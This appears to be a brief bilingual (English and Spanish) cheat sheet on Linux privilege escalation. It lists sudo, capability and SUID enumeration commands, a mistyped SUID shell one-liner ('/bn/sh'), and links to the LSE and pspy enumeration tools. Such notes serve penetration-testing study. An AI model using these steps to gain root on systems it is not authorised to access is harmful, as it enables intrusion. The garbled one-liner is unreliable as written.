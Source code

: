 # Privilege Escalation

First, let's check the Linux version with the following command:

```shell
lsb_release -a
```

## Privilege Escalation using sudo -l
We try executing the following instruction to check which files we can run as root:

```shell
sudo -l
```

From there, we can search for the folder and the exploit that uses it to establish a reverse shell.

## Basic Privilege Escalation using CAPABILITIES

```shell
getcap -r / 2>/dev/null
```

This lists the packages or services that we can execute as root.

```shell 
#Ejemplo
/usr/bin/perl = cap_setuid+ep
```

## Privilege Escalation using Binaries

We search for files that we can execute as root with the current user:

```shell
find / -perm -4000 2>/dev/null
```

We consult the binary in GTFobins and look for any binary that we can execute with SUID permissions.
The exploit needs to use the full path.

```shell
usr/bin/env /bn/sh -p 
```

## Tools

### LSE (Linux Smart Enumeration): 
Es una herramienta de enumeración para sistemas Linux que permite a los atacantes obtener información detallada sobre la configuración del sistema, los servicios en ejecución y los permisos de archivo. LSE utiliza una variedad de comandos de Linux para recopilar información y presentarla en un formato fácil de entender. Al utilizar LSE, los atacantes pueden detectar posibles vulnerabilidades y encontrar información valiosa para futuros ataques.

### Pspy: 
Es una herramienta de enumeración de procesos que permite a los atacantes observar los procesos y comandos que se ejecutan en el sistema objetivo a intervalos regulares de tiempo. Pspy es una herramienta útil para la detección de malware y backdoors, así como para la identificación de procesos maliciosos que se ejecutan en segundo plano sin la interacción del usuario.


Herramienta LSE: https://github.com/diego-treitos/linux-smart-enumeration
Herramienta PSPY: https://github.com/DominicBreuker/pspy